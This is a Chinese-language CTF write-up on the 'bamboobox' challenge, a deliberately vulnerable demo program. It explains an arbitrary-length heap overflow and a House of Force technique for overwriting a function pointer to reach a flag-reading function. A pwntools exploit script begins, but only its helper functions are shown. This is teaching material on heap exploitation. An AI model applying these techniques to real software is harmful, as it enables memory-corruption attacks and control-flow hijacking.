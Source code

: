 需要注意的是，該程序開始時即申請了 0x10 的內存，用來保留**兩個函數指針**。

該程序大概就是對於盒子裏的物品進行添加和刪除

1. 展示盒子裏的內容，依次盒子裏每一個物品的名字。
2. 向盒子裏添加物品，根據用戶輸入的大小來爲每一個物品申請對應的內存，作爲其存儲名字的空間。但是需要注意的是，這裏讀取名字使用的是 `read` 函數，讀取長度的參數是用戶輸入的 v2，而 read 的第三個參數是無符號整數，如果我們輸入負數，就可以讀取任意長度。但是我們需要確保該數值滿足`REQUEST_OUT_OF_RANGE` 的約束，所以這裏存在**任意長度堆溢出**的漏洞。但即使這樣，第一次的時候也比較難以利用，因爲初始時候堆的 top chunk 的大小一般是不會很大的。
3. 修改物品的名字，根據給定的索引，以及大小，向指定索引的物品中讀取指定長度名字。這裏長度由用戶來讀入，也存在**任意長度堆溢出**的漏洞。
4. 刪除物品，將對應物品的名字的大小置爲0，並將對應的 content 置爲 NULL。

此外，由於該程序主要是一個演示程序，所以程序中有一個 magic 函數，可以直接讀取 flag。

### 利用

由於程序中有個 magic 函數，所以我們的核心目的是覆蓋某個指針爲 magic 函數的指針。這裏，程序在開始的時候申請了一塊內存來存儲兩個函數指針，hello_message用於程序開始時使用，goodbye_message 用於在程序結束時使用，所以我們可以利用覆蓋 goodbye_message 來控制程序執行流。具體思路如下

1. 添加物品，利用堆溢出漏洞覆蓋 top chunk 的大小爲 -1，即 64 位最大值。
2. 利用 house of force 技巧，分配 chunk 至堆的基地址。
3. 覆蓋 goodbye_message 爲magic 函數地址來控制程序執行流

**這裏需要注意的是，在觸發top chunk 轉移到指定位置時，所使用的大小應該合適，以便於設置新的 top chunk 大小，從而可以繞過下一次分配top chunk 的檢測。**

exp 如下

```shell
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./bamboobox')
context.log_level = 'debug'


def additem(length, name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def modify(idx, length, name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


def show():
    r.recvuntil(":")
    r.sendline("1")

```